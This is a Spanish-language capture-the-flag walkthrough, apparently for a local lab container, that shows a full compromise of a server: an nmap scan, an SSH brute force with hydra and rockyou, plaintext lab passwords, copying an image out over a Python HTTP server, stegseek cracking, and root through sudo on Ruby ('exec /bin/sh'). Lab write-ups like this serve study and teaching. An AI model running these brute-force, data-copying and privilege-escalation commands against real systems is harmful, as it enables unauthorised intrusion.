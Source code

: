 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Una vez sabemos que tiene una web corriendo por el puerto 80, veremos que contiene. Para ello abriremos la web en el navegador introduciendo la ip en la barra de navegación.
![alt text](image-1.png)

Si nos fijamos, en el apartado de despido de empleado, vemos que el comunicado lo ha firmado Carlota, desde el departamento de Ciberseguridad. Entonces podemos palntear que Carlota es un posible usuario. Entonces realizaremos un ataque de fuerza bruta al servicio ssh con hydra para obtener la contraseña.
```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![alt text](image-2.png)

Vemos que hemos obtenido la contraseña, entonces entraremos al servidor por ssh.
```
ssh carlota@172.17.0.2
password: babygirl

$ script /dev/null -c bash
```
![alt text](image-3.png)

Una vez estamos dentro vemos que podemos navegar por directorios hasta `/Desktop/fotos$ cd vacaciones/` que nos encontramos con una imagen, entonces la compartimos a nuestra máquina atacante para poder analizarla vía servidor python.
```
-- Máquina víctima:
python3 -m http.server 33

-- Máquina atacante
wget http://172.17.0.2:33/imagen.jpg
```
![alt text](image-4.png)

![alt text](image-5.png)

Una vez descargada, vamos a hacer un ataque de fuerza bruta con la herramienta `stegseek` para ver si tiene algo oculto.
```
stegseek imagen.jpg /usr/share/wordlists/rockyou.txt -xf img
```
![alt text](image-6.png)

Una vez realizado el ataque, vamos a ver el contenido gueardado en el archivo `img`.
```
cat img
```
![alt text](image-7.png)

Por el tipo de caracteres, deducimos que está cifrado en `base64`, entonces lo vamos a decodificar.
```
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d > decript.txt
cat decript
```
![alt text](image-8.png)

Vemos que equivale a una contraseña de un usuario. Tras el `sudo -l` es fallido, ejecutamos el comando `env` para ver las variables de entorno y si nos muestra algo de un usuario.
![alt text](image-9.png)

Vemos que menciona a un usuario, este se llama `Oscar`, así que haremos el cambio de usuario con la contraseña descifrada anteriormente de la foto.
```
su oscar
password: eslacasadepinypon
```
![alt text](image-10.png)

A continuación miraremos los binarios para ver si se puede escalar de usuario con más permisios.
```
sudo -l
```
![alt text](image-11.png)

Finalmente explotaremos este binario y accederemos a administrador.
```
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```
![alt text](image-12.png)

Con esto ya tenemos control total del servidor.